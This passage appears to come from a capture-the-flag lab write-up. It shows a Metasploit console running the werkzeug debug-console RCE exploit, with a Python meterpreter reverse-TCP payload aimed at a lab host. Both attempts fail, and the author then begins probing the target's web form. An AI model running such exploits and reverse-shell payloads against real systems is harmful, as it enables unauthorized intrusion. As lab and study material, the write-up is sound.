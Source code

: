 ```
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /console         yes       URI to the console
   VHOST                       no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.44.135   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   werkzeug 0.10 and older


msf6 exploit(multi/http/werkzeug_debug_rce) > set RHOSTS 10.129.96.25
RHOSTS => 10.129.96.25
msf6 exploit(multi/http/werkzeug_debug_rce) > set RPORT 5000
RPORT => 5000
msf6 exploit(multi/http/werkzeug_debug_rce) > set LHOST 10.10.14.33
LHOST => 10.10.14.33
msf6 exploit(multi/http/werkzeug_debug_rce) > exploit

[-] Handler failed to bind to 10.10.14.33:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/werkzeug_debug_rce) > set LPORT 4343
LPORT => 4343
msf6 exploit(multi/http/werkzeug_debug_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.33:4343 
[-] Secret code not detected.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/werkzeug_debug_rce) > 

```

Therefore I focussed on the content of the webserver and SSH that was open. First the webserver. There are three input fields, one selection dropdown and an upload button. The first input box did not raise any hopes since all I could do with it is insert an IP for a local nmap scan, so I tried localhost in hopes of getting more info, but no I did not really.
